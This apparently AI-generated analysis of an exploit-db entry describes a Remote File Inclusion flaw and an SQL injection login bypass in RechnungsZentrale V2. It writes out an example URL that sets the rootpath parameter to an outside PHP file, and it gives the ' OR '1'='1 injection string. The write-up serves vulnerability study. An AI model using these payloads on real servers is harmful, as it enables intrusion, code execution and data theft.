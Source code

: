 Based on the provided information, here's an analysis of the vulnerability described in the exploit-db entry:

**CVE ID:** The exploit-db entry does not list a CVE for this vulnerability, it states "N/A"

**Root Cause of Vulnerability:**
*   The vulnerability is due to a **Remote File Inclusion (RFI)** weakness in the `authent.php4` script of RechnungsZentrale V2 software.

**Weaknesses/Vulnerabilities Present:**
*   **Remote File Inclusion (RFI):** The application allows an attacker to include a remote file by manipulating the `rootpath` parameter.
*   **SQL Injection:**  The entry also mentions a basic SQL injection vulnerability using the username `' OR '1'='1` and password `1`.

**Impact of Exploitation:**
*   **Remote Code Execution:** By including a malicious PHP file from a remote server, an attacker could achieve arbitrary code execution on the vulnerable server. This could lead to complete system compromise, data theft, or denial of service.
*  **Data Breach:** Through SQL injection, an attacker could gain access to the database, which may contain sensitive information.

**Attack Vectors:**
*   **HTTP Request Manipulation:** The attacker sends a specially crafted HTTP GET request to the `authent.php4` script. This request includes the `rootpath` parameter set to a URL pointing to the attacker's malicious PHP file.
*   **SQL Injection via login form:** The attacker uses a crafted username and password to bypass the login mechanism and potentially gain access to data in the database.

**Required Attacker Capabilities/Position:**
*   **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
*   **Knowledge of Vulnerable Application:** The attacker needs to know the vulnerable URL and the parameter to manipulate (i.e., `mod/authent.php4` and `rootpath`).
*   **Hosting a Malicious PHP File:** The attacker needs a web server to host the malicious PHP file to be included.

**Additional Notes:**
*   The exploit-db entry provides a specific example of how to exploit this vulnerability:
    `http://www.victim.tld/mod/authent.php4?rootpath=Http://server.tld/mod/db.php4`
*   The entry also states that versions prior to 1.1.3 are likely affected.
*  The vulnerability was discovered by GroundZero Security in 2006.

The content from secunia.com and vupen.com is not relevant to the vulnerability.